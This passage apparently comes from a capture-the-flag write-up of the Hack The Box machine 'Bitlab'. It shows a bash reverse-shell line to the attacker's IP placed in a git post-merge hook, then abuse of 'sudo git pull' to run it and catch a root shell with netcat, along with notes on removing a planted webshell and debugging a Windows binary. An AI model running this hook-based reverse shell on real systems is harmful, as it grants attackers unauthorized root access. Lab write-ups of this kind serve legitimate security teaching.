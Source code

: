     bash -i >& /dev/tcp/10.10.14.30/443 0>&1
    www-data@bitlab:/dev/shm/.0xdf/profile$ chmod +x .git/hooks/post-merge



Now I'll run `git pull`, but I don't get a callback on `nc`:



    www-data@bitlab:/dev/shm/.0xdf/profile$ sudo /usr/bin/git pull
    Already up to date.



Since there's no changes, no merge happens. I'll take this opportunity
to remove my webshell from `index.php` using the same steps I used to
add it. Once I make that change, I can pull again, and this time:



    www-data@bitlab:/dev/shm/.0xdf/profile$ sudo /usr/bin/git pull   
    remote: Enumerating objects: 6, done.
    remote: Counting objects: 100% (6/6), done.
    remote: Compressing objects: 100% (2/2), done.
    remote: Total 4 (delta 3), reused 3 (delta 2)
    Unpacking objects: 100% (4/4), done.
    From ssh://localhost:3022/root/profile
       69f1340..72805f3  master     -> origin/master
    Updating 69f1340..72805f3
    Fast-forward
     index.php | 1 -
     1 file changed, 1 deletion(-)



The www-data window hangs, but in the `nc` window, I'm root:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.114.
    Ncat: Connection from 10.10.10.114:52336.
    root@bitlab:/dev/shm/.0xdf/profile# id
    id
    uid=0(root) gid=0(root) groups=0(root)



### Debugging Username

When I initially tried to run this program, it just crashed. Some
debugging showed me that it was crashing at a call to `GetUserNameW`. I
took a guess that my username `0xdf` was throwing things off, created a
new user named `dummy,` and switched over, and did the debugging above.

I was failing to get to `ShellExecuteW` at a check comparing something
to `clave`, so I figured I would create a user clave, and debugging as
him. It still failed to reach the call to Putty.
